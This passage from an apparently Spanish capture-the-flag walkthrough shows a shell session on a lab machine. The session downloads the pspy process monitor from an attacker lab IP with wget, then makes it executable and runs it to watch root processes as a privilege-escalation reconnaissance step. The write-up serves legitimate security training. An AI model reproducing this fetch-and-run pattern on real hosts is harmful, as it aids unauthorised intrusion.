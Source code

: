 ```bash
reader@book:~$ cd /dev/shm/
reader@book:/dev/shm$ wget http://10.10.14.27/pspy
--2022-01-24 04:28:30--  http://10.10.14.27/pspy
Connecting to 10.10.14.27:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1059492 (1.0M) [application/octet-stream]
Saving to: ‘pspy’

pspy                             100%[=======================================================>]   1.01M  1.13MB/s    in 0.9s    

2022-01-24 04:28:32 (1.13 MB/s) - ‘pspy’ saved [1059492/1059492]

reader@book:/dev/shm$
```

Le damos permisos de ejecución y lo corremos.

```bash
reader@book:/dev/shm$ chmod +x pspy 
reader@book:/dev/shm$ ls -l
total 1036
-rwxrwxr-x 1 reader reader 1059492 Jan 24 00:53 pspy
reader@book:/dev/shm$ ./pspy                                                                                                     
pspy - version:  - Commit SHA:                                                                                                   
                                                                                                                                 
                                                                                                                                 
     ██▓███    ██████  ██▓███ ▓██   ██▓                                                                                          
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒                                                                                          
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░                                                                                          
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░                                                                                          
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░                                                                                          
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒         
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░                                                                                           
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░                                                                                            
                   ░           ░ ░                                                                                               
                               ░ ░                                                                                               
                                                                                                                                 
Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on 
inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)                       
Draining file system events due to startup...                                                                                    done                                                            
2022/01/24 04:29:40 CMD: UID=0    PID=9      |                                                                                   
2022/01/24 04:29:40 CMD: UID=101  PID=791    | /lib/systemd/systemd-resolved 
2022/01/24 04:29:40 CMD: UID=100  PID=785    | /lib/systemd/systemd-networkd                                                     
2022/01/24 04:29:40 CMD: UID=62583 PID=766    | /lib/systemd/systemd-timesyncd                                                   
2022/01/24 04:29:40 CMD: UID=0    PID=7      |                                                                                   
```